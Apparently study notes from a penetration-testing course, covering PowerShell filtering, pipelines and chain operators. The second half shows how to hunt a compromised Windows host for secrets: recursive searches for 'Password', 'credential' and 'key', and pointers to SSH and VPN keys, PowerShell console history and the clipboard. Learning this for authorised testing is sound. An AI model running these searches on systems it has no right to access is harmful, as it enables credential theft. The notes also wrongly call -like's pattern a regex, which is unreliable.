    1 True                      {MTanaka}
```

Sorting, grouping and filtering are all useful tools that will help us focus on the relevant data we are interested and throwing away the useless data we don't care about.

### Where
Sometimes what we are looking for might not be as clear to us as we would like, but we know sorta what we want. Say we are looking for a service and we know part of the name.

`Get-Service | where DisplayName -like '*Defender*'`

```
Status   Name               DisplayName
------   ----               -----------
Running  mpssvc             Windows Defender Firewall
Stopped  Sense              Windows Defender Advanced Threat Pr...
Running  WdNisSvc           Microsoft Defender Antivirus Networ...
Running  WinDefend          Microsoft Defender Antivirus Service
```

Here i prompted PowerShell that i was looking for a DisplayName -like "*Defender*" *note* that the search string is a regex. 

Like is not the only comparison operator we can use
* like
* Contains
* Equal
* Match
* Not

### Pipeline (|)
Like with bash the pipeline forwards the returned object and parses in as an argument to the statement afther the pipeline. You can chain maybe statements together like that:
`get-process | sort | unique | measure-object`

#### Chain Operators (&& and ||)
* && executes the next statement if the first statement succeeds 
* || executes the next statement if the first statement failed.

Only works with PowerShell 7 and above.


### Finding data within content
Say we are unable to bring in tools from the outside, how can we hunt for sensitive data? 

`Select-String` is a good place to start it functions much like grep.

Lets examine this string
`Get-Childitem –Path C:\Users\MTanaka\ -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.txt")}`

This will recursivly enumerate every subdir of the path given and while suppressing any errors we get will return any .txt file it finds. 

However txt files are not the only interesting file type on a system, so lets expand with some more types!

`Get-Childitem –Path C:\Users\MTanaka\ -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.txt" -or $_.Name -like "*.py" -or $_.Name -like "*.ps1" -or $_.Name -like "*.md" -or $_.Name -like "*.csv")}`

Using the or operator we now have a good change of finding some interesting files.

Now lets search some interesting files for string keywords!

`Get-ChildItem -Path C:\Users\MTanaka\ -Filter "*.txt" -Recurse -File | sls "Password","credential","key"`

I have reduced the scope of file searches for clarities sake. The txt files we do find we search for the strings Password, credential and key. 

### Good Places to look for Treasure

* Looking in a Users \AppData\ folder is a great place to start. Many applications store configuration files, temp saves of documents, and more.
* A Users home folder C:\Users\User\ is a common storage place; things like VPN keys, SSH keys, and more are stored. Typically in hidden folders. (Get-ChildItem -Hidden)
* The Console History files kept by the host are an endless well of information, especially if you land on an administrator's host. You can check two different points:
* C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
* Get-Content (Get-PSReadlineOption).HistorySavePath
* Checking a user's clipboard may also yield useful information. You can do so with Get-Clipboard
* Looking at Scheduled tasks can be helpful as well.

